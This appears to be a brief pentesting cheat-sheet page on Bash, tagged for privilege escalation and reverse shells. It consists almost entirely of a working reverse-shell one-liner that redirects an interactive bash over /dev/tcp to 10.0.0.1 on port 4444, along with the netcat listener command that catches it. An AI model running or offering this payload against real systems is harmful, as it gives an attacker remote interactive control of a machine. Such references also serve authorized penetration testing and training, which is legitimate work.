 ```yaml
---
title: Bash
desc: Executes shell commands and scripts. It also used to Reverse Shell, etc.
tags: [Linux, PrivEsc, ReverseShell, SUID]
alts: [BashScript]
website:
render_with_liquid: false
---
```


## Reverse Shell TCP

```sh
# TCP (ex. port: 4444)
bash -i >&  /dev/tcp/10.0.0.1/4444 0>&1

-------------------------------------------

# Listen
nc -lvnp 4444
```
